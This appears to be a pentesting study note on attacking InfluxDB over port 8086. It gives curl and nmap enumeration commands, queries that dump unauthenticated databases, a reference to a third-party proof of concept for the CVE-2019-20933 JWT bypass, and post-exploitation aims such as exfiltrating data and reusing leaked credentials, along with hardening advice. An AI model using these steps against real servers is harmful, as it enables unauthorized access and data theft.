

# 52 - InfluxDB (Port 8086) Pentesting

## 1. Executive Summary

InfluxDB is an open-source **time-series database** (timestamp-value pairs — metrics, IoT, monitoring). Its HTTP API listens on **TCP 8086**. It frequently runs **without authentication**, exposing all databases and data over the HTTP query API. Even when auth is enabled, **CVE-2019-20933** (a JWT auth bypass affecting InfluxDB < 1.7.6 with empty/guessable shared secret) lets an unauthenticated attacker run arbitrary InfluxQL. The data itself — system metrics, telemetry, sometimes credentials in tags/fields — is the prize, and `SHOW DATABASES`/`SELECT` give it up readily.

## 2. Protocol Overview & Architecture

v1.x speaks **InfluxQL** over the HTTP `/query` endpoint; `/ping` returns the version (`X-Influxdb-Version` header) and `/health` returns status JSON. Auth is optional and, when present, can be Basic or JWT — the latter is what CVE-2019-20933 defeats. v2.x switches to token-auth + Flux, but many deployments are still v1.x on 8086.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 8086 <IP>
curl -i http://<IP>:8086/ping              # 204 + X-Influxdb-Version
curl -s http://<IP>:8086/health | jq .

# CLI (auth optional)
influx -host <IP> -port 8086
influx -username influx -password influx_pass -host <IP>

# HTTP API queries (no CLI needed)
curl -sG "http://<IP>:8086/query" --data-urlencode "q=SHOW DATABASES"
curl -sG "http://<IP>:8086/query" --data-urlencode "db=telegraf" --data-urlencode "q=SHOW MEASUREMENTS"
```

## 4. Exploitation Deep Dive

### 4.1 Unauthenticated Data Access
If `SHOW DATABASES` returns without creds, enumerate and dump:
```bash
curl -sG "http://<IP>:8086/query" --data-urlencode "q=SHOW DATABASES"
curl -sG "http://<IP>:8086/query" --data-urlencode "db=<db>" --data-urlencode "q=SHOW MEASUREMENTS"
curl -sG "http://<IP>:8086/query" --data-urlencode "db=<db>" --data-urlencode "q=SELECT * FROM <measurement> LIMIT 50"
```

### 4.2 Auth Bypass — CVE-2019-20933
For InfluxDB < 1.7.6 with a weak/empty JWT shared secret, forge a token for a known user (e.g. `admin`) and query as authenticated:
```bash
python3 __influx_auth_bypass.py -t <IP> -p 8086 -d <db>   # LorenzoTullini PoC
```

### 4.3 Data Mining
Tags/fields sometimes carry hostnames, internal IPs, and occasionally secrets pushed by misconfigured telemetry agents — `SHOW TAG KEYS`, `SHOW FIELD KEYS`, then `SELECT`.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Exfil time-series data (telemetry, metrics, PII).
- Internal topology from host tags → target mapping.
- Any leaked creds → cross-service reuse.

## 7. Defense & Hardening
1. Enable authentication; set a strong JWT shared secret; upgrade past 1.7.6 (closes CVE-2019-20933).
2. Prefer v2 token auth + TLS.
3. Firewall 8086 to trusted collectors/dashboards only.
4. Don't push secrets into tags/fields.

## 8. Chaining Opportunities
- Dashboards on top: **[[50 - Kibana (Port 5601) Pentesting]]**-style data exposure pattern.
- Leaked creds → SSH/DB reuse.

## 9. Related Notes
- [[51 - Splunkd (Port 8089) Pentesting]]
- [[18 - Elasticsearch (Port 9200) Pentesting]]

## 10. Tools
`curl`, `influx` CLI, CVE-2019-20933 PoC (LorenzoTullini), `nmap`.
